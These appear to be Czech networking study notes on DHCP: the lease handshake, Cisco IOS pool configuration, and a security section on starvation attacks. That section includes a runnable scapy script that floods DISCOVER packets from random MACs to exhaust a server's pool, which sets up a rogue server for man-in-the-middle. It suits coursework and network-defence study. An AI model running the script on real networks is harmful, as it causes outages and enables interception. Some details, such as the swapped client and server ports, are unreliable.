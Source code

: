 # DHCP - Dynamic Host Configuration Protocol

### Topika: Úvod, nastavení v IOS, security

## Úvod

port 67 - host

port 68 - server

*DHCP* je protokol nacházející se na Síťové vrstvě. Zajišťuje nám aby nové zařízení v síti mohli fungovat. Jelikož jim automaticky přiděluje potřebné věci. Jeho předchůdci jsou Reverse ARP a Bootstrap protokol. 

#### Statické DHCP
- DHCP tabulka si uchovává přiřazenou IP adresu k MAC adrese, pomocí toho tak může mít zařízení pokaždé stejnou IP ikdyž se odpojí ze sítě. Využívá se pro servery. 

#### Přiřazení adresy
- probíhá 4 way handshakem.

> Host pošle DHCPDISCOVER na portu 68 na broadcast aby našel DHCP server
> 
> Server odpoví DHCPOFFER na portu 67 a nabídne adresu, hosta najde pomocí MAC adresy
> 
> Host pošle DHCPREQUEST na portu 68, žádá o nabídnutou IP adresu
> 
> Server odpoví DHCPACKNOWLEDGE na portu 67, server potvrzuje přiřazení adresy a zapisuje si ho do "poolu"

DHCP Přiřazuje hostům:
- IPv4 adresu
- NTP (pro analýzu)
- Gateway
- DNS server (například Cloudflare - 1.1.1.1 nebo Google - 8.8.8.8)

## Nastavení DHCP na Switchi nabo Routeru s IOS

#### Základní konfigurace DHCP
```
SW(config)#ip dhcp pool NETWORK1                          //vytvoří pool se jménem 
SW(dhcp-config)#network 192.168.190.0 255.255.255.0       //nastaví adresní rozsah
SW(dhcp-config)#default-router 192.168.190.1              //Gateway adresa
SW(dhcp-config)#dns-server 1.1.1.1 8.8.8.8                //adresy DNS serverů (můžeme nastavit až 8 adres)
SW(dhcp-config)#lease 30                                  //pronájem adresy na 30 dní, formátje den hodina minuta (tedy třeba 0 0 10 = 10 minut)
```

#### Konfigurace Statického DHCP
```
SW(dhcp-config)#host 192.168.190.9 255.255.255.0          // adresa pro klienta spolu s maskou
SW(dhcp-config)#client-identifier 0100.1217.59b0.73       // MAC adresa před kterou je typ media, 01 je pro Ethernet a tečka se posouvá
```

#### Užitečné příkazy
```
SWITCH#show ip dhcp bindings                              // seznam přidělených adres
SWITCH#clear ip dhcp bindings                             // vymaže seznam
SWITCH#show ip dhcp conflicts                             // seznam konfliktů
SW#clear ip dhcp conflicts                                // vymaže seznam konfliktů
SW#show ip dhcp pool                                      // informace o poolu
SW#show ip dhcp server statistics                         // statistiky serveru
```

## DHCP security
- Pro síť je špatně nastavené DHCP hrozba.

#### Startvation attack
- Útočník zahlcuje tabulku pro volne hosty pomocí scriptu. Poté můžu začít hostovat vlastní DHCP server, jelikož původní bude plný noví hostové budou dostávat adresu od útočníkovo DHCP serveru. Jelikož DHCP přiřazuje i gateway tak útočník zde může dát svoji IP adresu a jednoduše získat Man in the Middle útok.

Python script: 
- pozor jaký interface používáte
```
#!/usr/bin/python3
from scapy.all import *

conf.checkIPaddr = False  #Disable IP address checking

#Building DISCOVER packet
#Making an Ethernet packet
DHCP_DISCOVER = Ether(dst='ff:ff:ff:ff:ff:ff', src=RandMAC(), type=0x0800) \
            / IP(src='0.0.0.0', dst='255.255.255.255') \
            / UDP(dport=67,sport=68) \
            / BOOTP(op=1, chaddr=RandMAC()) \
            / DHCP(options=[('message-type','discover'), ('end')])

#Sending the crafted packet in a loop using the "eth0" interface
sendp(DHCP_DISCOVER, iface='eth0',loop=1,verbose=1 )-
```

Pro hostování DHCP serveru = https://udhcp.busybox.net/
